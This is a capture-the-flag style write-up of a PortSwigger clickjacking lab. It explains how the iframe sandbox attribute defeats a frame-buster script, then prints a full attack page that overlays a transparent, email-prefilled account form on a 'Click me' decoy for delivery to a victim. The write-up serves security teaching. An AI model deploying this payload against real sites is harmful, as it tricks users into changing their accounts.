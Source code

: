 # Clickjacking with a frame buster script

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script), you'll learn: Clickjacking with a frame buster script! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a [clickjacking attack](https://portswigger.net/web-security/clickjacking) that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102054510.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102054521.png)

**View source page:**
```html
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <script>
        if(top != self) {
            window.addEventListener("DOMContentLoaded", function() {
                document.body.innerHTML = 'This page cannot be framed';
            }, false);
        }
        </script>
        <input required type="hidden" name="csrf" value="I0MsiFo62jqwQWve8ihfuOe1milL4ixH">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

In here, we see a JavaScript code is **checking the current application window is the main or top window.**

**If it's not on the top window, the application rejects and not allow to be framed.** This technique is called "Frame busting".

**To bypass that, we can use the HTML5 iframe `sandbox` attribute:**
```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

When this is set with the `allow-forms` or `allow-scripts` values and **the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window.**

Armed with above information, we can **create a fake website that fools the user into changing their email address** by clicking on "Click me".

First, we need to **prepopulate the email addres**.

**To do so, we can provide a GET parameter: `email`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102055156.png)

**Then, we can crafte a fake website manually:**
```html
<html>
    <head>
        <title>Clickjacking with a frame buster script</title>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:450px;
                left:75px;
                z-index:1;
            }
        </style>
    </head>
    <body>
        <div id="decoyWebsite">Click me</div>
        <iframe id="targetWebsite" src="https://0a42009803148543c6bc3f00000d00f0.web-security-academy.net/my-account?email=attacker@evil.com" sandbox="allow-forms"></iframe>
    </body>
</html>
```

**Finally, go to exploit server to host the payload, and deliver to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102060724.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Clickjacking/Clickjacking-3/images/Pasted%20image%2020230102060729.png)

Nice!

# What we've learned:

1. Clickjacking with a frame buster script